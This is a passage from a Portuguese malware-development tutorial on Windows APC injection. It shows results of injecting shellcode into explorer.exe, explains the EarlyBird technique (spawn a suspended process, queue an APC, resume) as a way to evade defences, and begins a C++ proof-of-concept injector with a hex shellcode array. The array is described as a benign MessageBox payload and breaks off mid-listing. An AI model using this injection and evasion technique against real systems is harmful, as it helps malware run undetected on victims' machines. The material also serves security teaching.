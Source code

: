 Note que na comparação do laço for estamos utilizando uma variável local `i`, comparada no início com `THREAD_INJECTION_LIMIT` e incrementada ao fim dele, para evitar que a injeção se dê em todas as threads.

Abaixo podemos ver o resultado quando o alvo é o *explorer.exe*. Foi utilizado o um valor de `THREAD_INJECTION_LIMIT` de 2, mas é possível que a cada execução esse valor possa mudar. Caso o shellcode não rode, é recomendado aumentar esse valor e tentar novamente.

![02d35dc60d39f4bebb0df0f074f7fb7b.png](../img/maldev-0x00/02d35dc60d39f4bebb0df0f074f7fb7b.png)

Ao clicar no "Ok", o processo do explorer irá crashar, porém nosso shellcode foi executado com sucesso.

### EarlyBird Injection
Para ilustrarmos a efetividade do uso de APCs em cenários de evasão de defesas, iremos testar uma variação de injeção chamado EarlyBird, ou, "O madrugador".

O EarlyBird tem esse nome devido ao modo como a APC é injetada no processo-alvo. Sua vantagem com relação à técnica descrita na seção anterior é que não é necessário que um processo esteja rodando e tenha uma thread que entre em modo alertable para que ele seja vítima. Para isso, o injetor irá criar um processo em modo suspenso - em que a thread principal ainda não iniciou - configurar e enfileirar a função maliciosa e ela sempre irá rodar, visto que APCs também são executadas assim que um processo criado em modo suspenso é resumido.

> Por criar um processo em modo suspenso, a injeção EarlyBird pode ter um nível de detecção maior soluções mais sofisticadas, como EDRs.

Vamos analisar a construção do [código](https://github.com/midnight-rev/midnight-hackings-artifacts/tree/main/maldev/0x00/Examples/EarlyBird%20Injector).

#### EarlyBird Injector
O código a seguir é uma *proof-of-concept* da técnica EarlyBird.

Utilizaremos as funções com protótipos definidos nos headers `windows.h` e `iostream` para a construção do injetor e funcionamento auxiliar, como escrita de mensagens.

Também iremos definir uma variável global para guardar nosso shellcode x64 - como no caso anterior, apenas um shellcode não malicioso que utiliza MessageBox.

```cpp
#include <iostream>
#include <windows.h>

// Spawns a MessageBox
unsigned char shellcode[] = \
"\x48\x83\xEC\x28\x48\x83\xE4\xF0\x48\x8D\x15\x66\x00\x00\x00"
"\x48\x8D\x0D\x52\x00\x00\x00\xE8\x9E\x00\x00\x00\x4C\x8B\xF8"
"\x48\x8D\x0D\x5D\x00\x00\x00\xFF\xD0\x48\x8D\x15\x5F\x00\x00"
"\x00\x48\x8D\x0D\x4D\x00\x00\x00\xE8\x7F\x00\x00\x00\x4D\x33"
"\xC9\x4C\x8D\x05\x61\x00\x00\x00\x48\x8D\x15\x4E\x00\x00\x00"
"\x48\x33\xC9\xFF\xD0\x48\x8D\x15\x56\x00\x00\x00\x48\x8D\x0D"
"\x0A\x00\x00\x00\xE8\x56\x00\x00\x00\x48\x33\xC9\xFF\xD0\x4B"
"\x45\x52\x4E\x45\x4C\x33\x32\x2E\x44\x4C\x4C\x00\x4C\x6F\x61"
"\x64\x4C\x69\x62\x72\x61\x72\x79\x41\x00\x55\x53\x45\x52\x33"
"\x32\x2E\x44\x4C\x4C\x00\x4D\x65\x73\x73\x61\x67\x65\x42\x6F"
"\x78\x41\x00\x48\x65\x6C\x6C\x6F\x20\x77\x6F\x72\x6C\x64\x00"
"\x4D\x65\x73\x73\x61\x67\x65\x00\x45\x78\x69\x74\x50\x72\x6F"
"\x63\x65\x73\x73\x00\x48\x83\xEC\x28\x65\x4C\x8B\x04\x25\x60"
"\x00\x00\x00\x4D\x8B\x40\x18\x4D\x8D\x60\x10\x4D\x8B\x04\x24"
"\xFC\x49\x8B\x78\x60\x48\x8B\xF1\xAC\x84\xC0\x74\x26\x8A\x27"
"\x80\xFC\x61\x7C\x03\x80\xEC\x20\x3A\xE0\x75\x08\x48\xFF\xC7"
"\x48\xFF\xC7\xEB\xE5\x4D\x8B\x00\x4D\x3B\xC4\x75\xD6\x48\x33"
"\xC0\xE9\xA7\x00\x00\x00\x49\x8B\x58\x30\x44\x8B\x4B\x3C\x4C"
"\x03\xCB\x49\x81\xC1\x88\x00\x00\x00\x45\x8B\x29\x4D\x85\xED"
"\x75\x08\x48\x33\xC0\xE9\x85\x00\x00\x00\x4E\x8D\x04\x2B\x45"
"\x8B\x71\x04\x4D\x03\xF5\x41\x8B\x48\x18\x45\x8B\x50\x20\x4C"
"\x03\xD3\xFF\xC9\x4D\x8D\x0C\x8A\x41\x8B\x39\x48\x03\xFB\x48"
```